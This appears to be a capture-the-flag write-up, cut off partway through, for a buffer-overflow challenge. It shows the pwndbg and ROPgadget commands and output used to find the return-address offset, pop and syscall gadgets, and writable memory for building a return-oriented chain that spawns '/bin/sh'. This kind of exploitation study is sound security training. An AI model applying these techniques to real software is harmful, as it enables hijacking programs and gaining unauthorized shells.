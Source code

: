 ### Plan
1. Find padding needed to buffer overflow
2. Find gadgets needed
3. Find writable location
4. move shell into writable location
5. run syscall

### Step 1 
To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `paaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l paaaaaaa
Finding cyclic pattern of 8 bytes: b'paaaaaaa' (hex: 0x7061616161616161)
Found at offset 120
```


### Step 2
Let's find the gadgets we need.

```sh
$> ROPgadget --binary chall | grep -E ": pop (rdi|rsi|rdx|rax) ; ret" | grep -v "retf"
0x00000000004005af : pop rax ; ret
0x00000000004006a6 : pop rdi ; ret
0x000000000044b446 : pop rdx ; ret
0x0000000000410003 : pop rsi ; ret
```

```sh
$> ROPgadget --binary chall | grep ": syscall"                                        
0x000000000040127c : syscall
```

### Step 3
We need to find a writable location of the binary in memory. That is where we will put the shell payload (also because we cannot run shellcode directly due to NX protection).

Run the following in pwndbg after running the program:

```sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x4b6000 r-xp    b6000      0 <YOUR_CHALL_DIR>
          0x6b6000           0x6bc000 rw-p     6000  b6000 <YOUR_CHALL_DIR>
```

As you can see, from `0x6b6000` to `0x6bc000`, this portion of the memory is writable. We will use this.

For this to work, we need to use a pointer gadget to move the `/bin/sh` into writable memory. Let's use one that has registers that we will be using.
